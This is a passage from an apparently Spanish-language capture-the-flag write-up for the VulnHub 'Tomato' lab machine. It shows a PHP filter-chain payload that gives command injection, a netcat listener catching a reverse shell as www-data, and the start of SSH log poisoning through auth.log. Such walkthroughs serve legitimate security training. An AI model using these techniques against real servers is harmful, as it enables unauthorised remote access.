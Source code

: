 ```bash
|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

 Y vemos que funciona

 ![](/assets/images/vh-writeup-tomato1/Web9.png)

Bueno ahora podemos probar inyectar un comando al final de `temp&cmd=id`

Y funciona estamos inyectando comandos

![](/assets/images/vh-writeup-tomato1/Web10.png)

Si queremos ganar acceso usando esto 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Pones tu ip y ejecutas el `oneliner` de `bash` y ejecutas

![](/assets/images/vh-writeup-tomato1/Web11.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.67] from (UNKNOWN) [192.168.1.65] 42830
bash: cannot set terminal process group (869): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/antibot_image/antibots$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html/antibot_image/antibots$ 
```

Esta es la primera forma de ganar acceso pero la otra es aprovechandonos de un `Log Poisoning` 

Y bueno si veiamos en la ruta `/var/log/auth.log` logs de `ssh` vamos a intentarnos autenticarnos para generar un `log`

```bash
❯ ssh xd@192.168.1.65 -p 2211
The authenticity of host '[192.168.1.65]:2211 ([192.168.1.65]:2211)' can't be established.
ECDSA key fingerprint is SHA256:JDd25EqsTJs44XnAH15oh6ObPD2zJ2QmrJ3FU8mL8ps.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.1.65]:2211' (ECDSA) to the list of known hosts.
xd@192.168.1.65's password: 
Permission denied, please try again.
xd@192.168.1.65's password: 
```
